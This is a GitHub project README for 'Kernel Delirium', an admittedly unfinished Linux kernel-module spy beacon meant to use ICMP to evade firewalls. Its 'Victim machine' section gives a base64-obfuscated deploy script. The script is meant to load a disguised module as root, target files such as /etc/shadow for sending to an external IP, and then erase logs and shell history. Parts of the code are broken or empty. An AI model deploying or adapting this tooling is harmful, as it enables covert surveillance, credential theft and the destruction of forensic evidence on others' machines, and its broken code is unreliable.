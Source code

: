 # Kernel Delirium (Not working yet, still requires development)

## What is it about

My idea was to create a kernel module for linux machine which is basically a beacon to spy on machine using ICMP protocoll which is usually less suspicious then tcp/udp f.ex, so even some firewalls don't mind. Additionally inexperienced System admin is not gonna try to look it up in kernel modules. Maybe in future to hide it better, I'll include the module in the system one

## How to use?

To use this software you should install a desktop app and run deploy_and_clean.py (I recommend to assemble file with base64)on the victim machine

### Victim machine :syringe:

```bash
base64 -d aW1wb3J0IG9zCmltcG9ydCBhcmdwYXJzZQoKI21vZHVsZV9uYW1lIGlzIG5lZWRlZCB0byBoaWRl
IHRoZSBleHBsb2l0IHVuZGVyIHRoZSBuYW1lIHdoaWNoIGlzIG5vdCBzdXNwaWNpb3VzCmRlZiBl
eHBsb2l0X2dlbihleHRlcm5hbF9pcCwgZXh0ZXJuYWxfcG9ydCwgbW9kdWxlX25hbWUgPSAiZXRo
ZXJuZXQuYyIsIGZpbGVzID0gW10sIHVwZGF0ZV9wZXJpb2Q9MSk6CiAgICBNT0RVTEVfQ09ERT0i
IiIiIiIKICAgIHByaW50KGV4dGVybmFsX2lwLCBleHRlcm5hbF9wb3J0LCBtb2R1bGVfbmFtZSwg
dXBkYXRlX3BlcmlvZCkKICAgIHByaW50KGZpbGVzWzBdKQogICAgcHJpbnQoZmlsZXNbMV0pCgpk
ZWYgbG9hZF9tb2R1bGUobW9kdWxlTmFtZSk6CiAgICBNQUtFRklMRT1mIiIiQ09ORklHX01PRFVM
RV9TSUc9bgpvYmotbSArPSB7bW9kdWxlTmFtZX0KCmFsbDoKCXN1ZG8gYXB0LWdldCBpbnN0YWxs
IC0tcmVpbnN0YWxsIC15IGxpbnV4LWhlYWRlcnMtJCh1bmFtZSAtcikKCW1ha2UgLUMgL2xpYi9t
b2R1bGVzLyQoc2hlbGwgdW5hbWUgLXIpL2J1aWxkIE09JChQV0QpIG1vZHVsZXMKCXN1ZG8gaW5z
bW9kIGR2dC1kcml2ZXIua28KCmNsZWFuOgoJbWFrZSAtQyAvbGliL21vZHVsZXMvJChzaGVsbCB1
bmFtZSAtcikvYnVpbGQgTT0kKFBXRCkgY2xlYW4KCXJtIC1yZiAqLmMgKi5vICoua28gKi5tb2Qg
Ki5tb2QuYyIiIgoKICAgIHdpdGggb3BlbigiTWFrZWZpbGVfdHN0IiwgInciKSBhcyBmOgogICAg
ICAgIGYud3JpdGUoTUFLRUZJTEUpCiAgICAjb3Muc3lzdGVtKCIgbWFrZSIpCgoKZGVmIGNsZWFu
dXAoKToKICAgIG9zLnN5c3RlbSgiIG1ha2UgY2xlYW4iKQogICAgb3Muc3lzdGVtKCIgam91cm5h
bGN0bCAtLXZhY3V1bS10aW1lPTEwZCIpCiAgICBvcy5zeXN0ZW0oIiBoaXN0b3J5IC1jIikKICAg
IGZvciBmaWxlIGluIG9zLmxpc3RkaXIoIi92YXIvbG9nIik6CiAgICAgICAgd2l0aCBvcGVuOgog
ICAgICAgICAgICBmaWxlLnRydW5jYXRlKCkKICAgIG9zLnJlbW92ZShfX2ZpbGVfXykKCmRlZiBt
YWluKCk6CiAgICBwYXJzZXIgPSBhcmdwYXJzZS5Bcmd1bWVudFBhcnNlcihkZXNjcmlwdGlvbiA9
ICJUaGlzIHNjcmlwdCBzaG91bGQgYmUgcmFuIGFzIHJvb3Qgb24gZXhwb2l0ZWQgbWFjaGluZSB0
byBjcmVhdGUgYW5kIGxvYWQgYSBzdWl0YWJsZSBmb3IgeW91ciB0YXNrcyBjIGtlcm5lbCBtb2R1
bGUgdG8gc3B5IG9uIHNwZWNpZmljIGZpbGVzIGFuZCBzdGF5IGhpZGRlbiIpCiAgICBwYXJzZXIu
YWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX2lwIiwgdHlwZSA9IHN0ciwgaGVscCA9ICJQcm92aWRl
IGFuIGV4dGVybmFsIG1hY2hpbmUgSVAgQUREUkVTUyB0aGF0IHdpbGwgYmUgdXNlZCIpCiAgICBw
YXJzZXIuYWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX3BvcnQiLCB0eXBlID0gc3RyLCBoZWxwID0g
IlByb3ZpZGUgYW4gZXh0ZXJuYWwgbWFjaGluZSBQT1JUIHRoYXQgd2lsbCBiZSB1c2VkIiwgZGVm
YXVsdD0iMjIiKQogICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1tb2R1bGVfbmFtZSIsIHR5cGUg
PSBzdHIsIGhlbHAgPSAiTmFtZSBvZiB0aGUgbW9kdWxlIGYuZXggZXRoZXJuZXRfbW9kdWxlLCBp
dCdzIGJldHRlciBub3QgdG8gaGF2ZSB2aXJ1cyBvciBleHBvaXQgbmFtZSBvYnZpb3VzbHkiKQog
ICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1maWxlcyIsIHR5cGUgPSBzdHIsIG5hcmdzPSIrIiwg
aGVscD0iSGVyZSBhIGxpc3Qgb2YgZmlsZXMgdG8gYmUgc2VudCBzaG91bGQgYmUgcHJvdmlkZWQg
Zi5leCAvZXRjL2hvc3RzIC9ldGMvc2hhZG93cyIsIGRlZmF1bHQ9Ii9ldGMvc2hhZG93cyIpCiAg
ICBwYXJzZXIuYWRkX2FyZ3VtZW50KCItLXVwZGF0ZV9wZXJpb2QiLCB0eXBlID0gc3RyLCBoZWxw
ID0gIlRoZSBpbnRlcnZhbCBvZiB0aW1lIGluIHdoaWNoIGluZm9ybWF0aW9uIHNob3VsZCBiZSBn
YXRoZXJlZCBhZ2FpbiBhbmQgc2VuZCAoaW4gaG91cnMpLiBZb3Ugc2hvdWxkIGtub3cgdGhhdCB0
byBhdm9pZCBzdXNwaWNpb25zLCB0aW1lIHBlcmlvZCBtYXkgZGlmZmVyIHVwIHRvIDExIG1pbiIs
IGRlZmF1bHQ9IjEiKQogICAgYXJncyA9IHBhcnNlci5wYXJzZV9hcmdzKCkKICAgIGV4cGxvaXRf
Z2VuKGFyZ3MuZXh0ZXJuYWxfaXAsIGFyZ3MuZXh0ZXJuYWxfcG9ydCwgYXJncy5tb2R1bGVfbmFt
ZSwgYXJncy5maWxlcywgYXJncy51cGRhdGVfcGVyaW9kKQogICAgbG9hZF9tb2R1bGUoYXJncy5t
b2R1bGVfbmFtZSkKICAgIGNsZWFudXAoKQogICAgcmV0dXJuIDA7CgppZiBfX25hbWVfXyA9PSAi
X19tYWluX18iOgogICAgbWFpbigpCg== > deploy_and_clean.py`
```

```python
python3 deploy_and_clean.py`
```
### Your machine :computer:
```bash
apt-get install kernel-delirium (Not gonna work yet)
```

```bash
kernel-delirium
```